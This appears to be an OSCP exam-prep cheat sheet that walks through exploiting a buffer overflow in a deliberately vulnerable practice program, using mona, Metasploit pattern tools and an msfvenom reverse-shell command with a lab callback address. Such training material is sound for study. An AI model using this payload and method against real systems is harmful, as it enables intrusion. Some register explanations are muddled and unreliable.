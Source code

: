 ## OSCP Buffer Overflow Cheat Sheet and Scripts (Exploits)


In this cheat sheet we will use dostackbufferoverflowgod as a vulnerable application in our exploration process (more info here: 

The binary can be downloaded here: 

Below are the download links for all the tools needed for the study:

Windows 7 Evaluation:  (you can run on Windows 10 too)
Immunity Debugger: 
Mona.py: 
All installation processes are described in the links above.

Fuzzing
We will run the connect.py script to verify the application's response.

After this step, we will run the fuzzing.py script to identify the point that the application will crash. But before that, on your Windows, attach the application to the Immunity Debugger.

Change the amount of "A" in the script until the application broken.

Offset
After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite

msf-pattern_create -l 1024
Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

msf-pattern_offset -q 39654138
Now we can run poc.py and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)

Badchars
To identify badchars we will use mona with the option !mona bytearray.

Insert the mona output in the badchars.py script and run against the application to identify the badchars.

There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.

JMP ESP
After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is \xff\xe4 (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run !mona modules and identify the unprotected modules.

Run !mona find -s "\xff\xe4" to identify which of these pointers have the OPCODE for JMP ESP

Run !mona jmp -r esp -cpb "\x00\x0a" to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run !mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

0x080416BF  <->  "\xBF\x16\x04\x08"
Exploit time
We can now generate our shellcode excluding the badchars found:

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
The EXITFUNC=thread option prevents the shellcode from crashing the application when executing our shellcode.

Now just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow
